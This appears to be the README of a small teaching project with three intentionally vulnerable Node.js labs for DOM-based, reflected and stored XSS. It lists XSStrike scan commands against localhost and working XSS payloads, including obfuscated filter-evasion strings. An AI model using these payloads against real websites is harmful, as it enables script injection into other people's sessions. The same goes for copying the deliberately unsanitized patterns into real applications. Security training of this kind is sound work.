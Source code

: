 # Node-XSS-labs
Most of the XSS labs online are based on PHP backend. So I developed three simple labs to demonstrate XSS vulnerabilities (DOM-based, reflected and stored) on a Node.js server. The labs are tested with XSStrike for vulnerabilities. The labs are build on Javascript, ejs, Node.js and Express.

### DOM-based XSS
**Payload** : ```alert(1)```
![]()

<br>
### Reflected XSS
**XSStrike Query** : python .\xsstrike.py -u "http://localhost:3000/?txt1=a" <br>
**Generated Payload** : ```<HtmL%0aONpoiNtereNteR%0d=%0d[8].find(confirm)%0dx>```
![]()

<br>
### Stored XSS
**XSStrike Query** : python .\xsstrike.py -u "http://localhost:3000/?txt1=a&txt2=a" -f default <br>
**Generated Payload** : ```'"</Script><Html Onmouseover=(confirm)()//<imG/sRc=l oNerrOr=(prompt)() x>```
![]()



# How to Run
1. Install dependencies with ```npm install```
2. Run server with ```node script.js```
